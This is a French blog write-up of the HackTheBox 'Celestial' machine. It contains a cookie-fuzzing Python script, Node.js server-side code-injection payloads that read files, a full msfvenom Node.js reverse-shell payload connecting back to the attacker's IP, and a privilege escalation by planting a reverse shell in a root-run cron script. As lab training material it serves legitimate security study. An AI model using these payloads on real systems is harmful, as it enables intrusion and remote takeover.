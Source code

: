 # Solution du CTF Celestial de HackTheBox

Back to the root(s)
-------------------

En attendant la venue d'un nouveau CTF basé sur Windows sur [HackTheBox](https://www.hackthebox.eu/), je me suis penché sur différentes machines sous Linux.  

*Celestial* était l'une de celles-ci.  

2 + 2 = 22
----------

J'ai commencé par le classique scan de ports Nmap, ici un peu plus poussé via l'utilisation de plus de scripts :  

```plain
nmap -T5 --script safe -sC -sV -p- -A -oA scan 10.10.10.85
```

La seule chose à retenir c'est la présence du port 3000 ouvert ainsi que de nombreux ports non filtrés, ce qui peut être utile pour la suite :  

```plain
Not shown: 63272 closed ports, 2262 filtered ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Wed, 22 Aug 2018 09:49:39 GMT; -4s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers:
|   X-Powered-By: Express
|   Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Wed, 22 Aug 2018 10:04:44 GMT; HttpOnly
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 12
|   ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
|   Date: Wed, 22 Aug 2018 09:49:44 GMT
|   Connection: close
```

On voit clairement la mention de *Nodejs*. Au vu du numéro de port peu banal pour un service web j'ai d'abord pensé qu'il s'agissait d'un service de débogage à distance, j'ai donc lancé le module *Metasploit* *multi/misc/nodejs\_v8\_debugger* mais ceci n'a mené nul part, la réponse n'était clairement pas celle attendue par *Metasploit* je faisais fausse route.  

Je pointe donc mon browser sur ce port 3000 et j'obtiens une erreur HTTP. Un reload de la page plus tard et on a le message *Hey Dummy 2 + 2 is 22*.  

Il n'y a que [Javascript pour sortir cela bien sûr](https://gfycat.com/fr/gifs/detail/offensivefarflungbluefish) (oh no! It's retarded!) et c'est indice suffisant pour ce qui va venir.  

Si le message vient après un reload c'est parce qu'un cookie a été défini par le site. On le voit d'ailleurs dans le scan Nmap et il peut se décoder via base64 ce qui nous donne un dictionnaire JSON :  

```python
{
  "username":"Dummy",
  "country":"Idk Probably Somewhere Dumb",
  "city":"Lametown",
  "num":"2"
}
```

Attaquer les valeurs du dictionnaire n'est pas vraiment compliqué pour qui maîtrise bien Python (ou un autre vrai langage de programmation héhéhé).  

On part du même dictionnaire que l'on modifie dans une boucle que l'on sérialise en JSON pour ensuite encoder en base64 la chaîne obtenue transmise alors dans le cookie.  

Ma remière tentative a consisté à bruteforcer le champ *username* sans succès.  

Comme on est en face de Javascript il s'agit probablement d'une faille d'injection de code, auquel cas l'injection est à faire dans le champ *num*

Pour attaquer sans trop de difficultés ce champ j'ai écrit le script suivant, il suffit alors de lui passer un fichier avec les payloads :  

```python
import sys
import json
from urllib.parse import quote
from base64 import b64encode

import requests
from requests.exceptions import RequestException

data = {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
KEY = "num"
sess = requests.session()

wordlist = sys.argv[1]
with open(wordlist) as fd:
    for line in fd:
        word = line.strip()
        data["num"] = word

        try:
            raw = json.dumps(data).encode()
        except UnicodeEncodeError:
            continue
        else:
            raw = quote(b64encode(raw))
            try:
                response = sess.get(
                    "http://10.10.10.85:3000/",
                    headers={"cookie": "profile={}".format(raw)}
                )
            except RequestException:
                continue
            else:
                print(response.status_code, word)
                print(response.content)
```

Pour les payloads intéressants on peut se baser [sur cette page](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html) et commencer ainsi par l'injection suivante :  

```javascript
;res.end(require('fs').readdirSync('.').toString())
```

Ce qui nous retourne le contenu suivant :  

```plain
.ICEauthority
.Xauthority
.bash_history
.bash_logout
.bashrc
.cache
.config
.dbus
.dmrc
.gconf
.gnupg
.gvfs
.lesshst
.local
.mozilla
.nano
.node_repl_history
.npm
.profile
.selected_editor
.sudo_as_admin_successful
.xsession-errors
.xsession-errors.old
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
examples.desktop
node_modules
output.txt
server.js
```

On peut alors continuer en dumpant le contenu du premier flag avec le payload *;res.end(require('fs').readFileSync('Documents/user.txt'))* :  

```plain
9a093cd22ce86b7f41db4116e80d0b0f
```

Title is undefined
------------------

Lister les dossiers, lire des fichiers, c'est déjà pas mal mais on veut un vrai shell alors on dégaine *msfvenom* (aka *Il y a un payload pour ça*).  

```plain
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 --arch nodejs --platform nodejs -f raw
No encoder or badchars specified, outputting raw payload
Payload size: 797 bytes
 (function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(443, "10.10.14.9", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
```

On injecte ce payload et notre reverse shell minimaliste arrive :)   

On dispose d'un accès avec le compte *sun* :  

```plain
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Il y a deux fichiers intéressants dans le home de l'utilisateur :  

```plain
sun@sun:~$ cat Documents/script.py
print "Script is running..."

sun@sun:~$ ls -l output.txt
-rw-r--r-- 1 root root 63 Aug 22 09:05 output.txt

sun@sun:~$ cat output.txt
Script is running...
Script is running...
Script is running...
```

Il semble que le script soit exécuté par root à intervalle régulier ce qui expliquerait les permissions sur *output.txt*.  

On ne voit rien dans */etc/crontab* qui correspond et on n'a pas le mot de passe de *sun* pour afficher ses permissions sudo... Mais on peut écrire dans *script.py*. Alors [je tente ma chance](https://www.youtube.com/watch?v=1t-Bxw2lbdw) ?  

Je rajoute [une ligne de reverse shell python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) au fichier et *sure enough* on finit par obtenir notre accès et le flag qui va avec (*ba1d0019200a54e370ca151007a8095a*).  

It is not my code fault, it's Javascript
----------------------------------------

That was fast... Pour être sûr que j'avais suivi le chemin attendu j'ai retrouvé la ligne suivante dans le *crontab* de root :  

```plain
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```


*Published August 25 2018 at 18:19*